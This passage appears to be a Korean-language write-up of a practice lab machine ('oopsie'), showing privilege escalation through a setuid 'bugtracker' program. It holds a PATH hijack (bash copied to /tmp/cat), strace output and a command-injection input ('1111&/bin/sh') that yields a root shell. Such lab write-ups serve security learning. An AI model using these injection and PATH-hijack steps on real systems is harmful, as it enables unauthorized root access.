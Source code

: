 이제 /bin/bash 파일을 /tmp/cat 이란 이름으로 복사하여 저장 후, 경로를 가장 먼저 찾을 수 있도록 export를 통해 추가하였다. 이후 bugtracker를 실행하면 될줄 알았으나, 제대로 동작하지 않아 여기서부터 문제를 해결하기 위해 다양한 조사를 했다.
``` bash
robert@oopsie:/$ cp /bin/bash /tmp/cat
robert@oopsie:/$ export PATH=/tmp:$PATH
robert@oopsie:/$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ls
ls
---------------

cat: /root/reports/ls: No such file or directory
```

### Root Shell 획득 - 성공
우선 strace로 확인해보니 정상적으로 /tmp/cat을 갖고 온다. 하지만 참고한 블로그 글과는 다르게 shell에 붙지 않는다.
``` bash
[pid  1977] stat("/tmp/cat", {st_mode=S_IFREG|0777, st_size=121432, ...}) = 0
[pid  1977] clone(child_stack=NULL, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0x7fc253f8a810) = 1978
strace: Process 1978 attached
[pid  1977] wait4(-1,  <unfinished ...>
[pid  1978] execve("/tmp/cat", ["cat", "/root/reports/../../../../tmp/te"...], 0x564c4b436ba8 /* 24 vars */) = 0
```
위의 내용 중 /tmp/cat -> /bin/sh 로 치환해서 보면 조금 원인을 알 수 있다. bash 파일을 복사하더라도 내부적으로 'cat' 명령을 실행하게 되는데 이 cat의 경우 /usr,/bin 등과 같은 곳에서 경로를 찾는 과정이 존재하지않는다. 결국 /bin/sh -c "cat ~~~" 과 같은 형태이다.
``` bash
execve("/bin/sh", ["cat", "/root/reports/../../../../tmp/te"...], 0x564c4b436ba8 /* 24 vars */) = 0
```

그러던 중 문득 어차피 `("/bin/sh", ["cat", "/root/r....` 이 구간 자체가 root 권한으로 실행되고 있으니, cat이 아닌 다른 명령어를 넣어주면 되지 않을까 생각 들었다. 그리하여 `&`을 통해 명령어를 이어 붙여보았다.
``` bash
robert@oopsie:/$ bugtracker
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1111&/bin/sh
1111&/bin/sh
---------------

cat: /root/reports/1111: No such file or directory
# 

# whoami
root
```
